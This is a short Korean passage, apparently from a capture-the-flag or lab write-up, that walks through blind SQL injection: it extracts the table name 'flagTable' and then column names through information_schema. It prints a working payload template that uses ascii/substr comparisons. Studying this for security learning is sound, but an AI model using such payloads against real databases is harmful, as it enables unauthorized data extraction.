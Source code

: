 - 위와 같이 파라미터에 들어갈 **파이썬용 Blind SQLi 페이로드**를 구성한 후.

![blindsql](./screenshots/python_table_sqli1.png)

- 스크립트를 약간 수정한 뒤, 해당 페이로드로 **테이블 이름을 추출**하였다.

![blindsql](./screenshots/python_table_sqli1_find.png)

> 테이블 이름: **flagTable**

- 테이블 이름을 확인했으므로, 이제 `information_schema`를 통해 **컬럼명을 추출**할 차례다.

```html
' or ascii(substr((select column_name from information_schema.columns where table_name='flagTable' limit {j},1),{i},1))={ascii} and '1'='1
```

![blindsql](./screenshots/python_sqli1_column.png)
